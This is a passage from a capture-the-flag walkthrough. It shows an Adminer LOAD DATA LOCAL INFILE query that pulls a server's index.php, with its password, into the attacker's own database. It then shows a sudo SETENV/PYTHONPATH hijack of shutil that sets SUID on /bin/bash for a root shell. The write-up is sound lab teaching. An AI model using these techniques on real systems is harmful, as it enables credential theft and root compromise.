

*Figure 15 - Logged in to our own database with the `exfil` table ready to receive stolen rows.*

Now we can run:

```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php'
INTO TABLE exfil
FIELDS TERMINATED BY "\n"
```

This tells Adminer's MySQL client to read `/var/www/html/index.php` off its own disk and dump it row by row into our `exfil` table.

Now when we read it we get a username and password which if we try to SSH in we get access.



*Figure 16 - `SELECT * FROM exfil` shows the live `index.php`, including waldo's current DB password.*



*Figure 17 - SSH as `waldo` with the fresh password, and the user flag read from `user.txt`.*

---

## Priv Esc

When we do `sudo -l` we get the following.



*Figure 18 - `sudo -l` shows waldo can run `/opt/scripts/admin_tasks.sh` as root with the `SETENV` tag.*

`admin_tasks.sh` option 6 runs `/opt/scripts/backup.py` as root. That Python script does `from shutil import make_archive`.

When Python runs `import shutil`, it searches a list of directories in order. The first directory it checks is whatever `$PYTHONPATH` is set to. Normally sudo would strip that env var, but waldo's sudo rule has the `SETENV` tag, which means we're allowed to pass env vars through.

So: we drop a fake `shutil.py` in a directory we control, set `PYTHONPATH` to point at that directory, and run the script via sudo. Python imports our `shutil` instead of the real one, and whatever code we put in it runs as root.



*Figure 19 - A fake `shutil.py` in `/var/tmp` whose `make_archive` function sets the SUID bit on `/bin/bash`.*

Then we can run it and get our root.

```bash
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
ls -la /bin/bash
/bin/bash -p
```



*Figure 20 - After the fake `shutil` runs as root, `/bin/bash` is SUID; `bash -p` drops us into a root shell to read `root.txt`.*
